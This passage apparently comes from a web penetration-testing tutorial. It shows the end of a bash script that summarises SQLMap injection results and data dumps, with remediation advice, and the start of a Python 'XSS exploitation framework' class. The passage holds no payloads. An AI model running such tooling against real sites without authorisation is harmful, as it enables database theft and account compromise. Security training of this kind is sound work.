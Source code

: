 ```bash
echo "=== SQLMap Testing Complete ==="
echo "Results saved in: $OUTPUT_DIR"

# Generate summary report
echo "=== Generating Summary Report ==="
cat > "$OUTPUT_DIR/summary_report.md" << EOF
# SQLMap Testing Summary Report

## Test Configuration
- Target URL: $TARGET_URL
- Authentication: Cookie-based
- Test Date: $(date)

## Vulnerability Assessment
$(find $OUTPUT_DIR -name "*.log" -exec grep -l "vulnerable" {} \; | wc -l) vulnerable parameters found

## Database Information
$(find $OUTPUT_DIR -name "*.csv" -o -name "*.txt" | head -10)

## Extracted Data
$(find $OUTPUT_DIR -name "*.dump" | wc -l) data dumps created

## Recommendations
1. Implement parameterized queries
2. Add input validation
3. Use least privilege database accounts
4. Enable database query logging
5. Implement Web Application Firewall

EOF

echo "Summary report created: $OUTPUT_DIR/summary_report.md"
```

## Tutorial 2: Cross-Site Scripting (XSS) Exploitation

### Phase 1: XSS Discovery and Classification

#### Step 2.1: Automated XSS Discovery

```python
#!/usr/bin/env python3
"""
Comprehensive XSS Discovery and Exploitation Framework
"""

import requests
import json
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.common.by import By
from selenium.webdriver.support.ui import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
import time
import base64

class XSSExploitationFramework:
    def __init__(self, base_url, auth_token=None):
        self.base_url = base_url
        self.session = requests.Session()
        if auth_token:
            self.session.headers.update({'Authorization': f'Bearer {auth_token}'})
```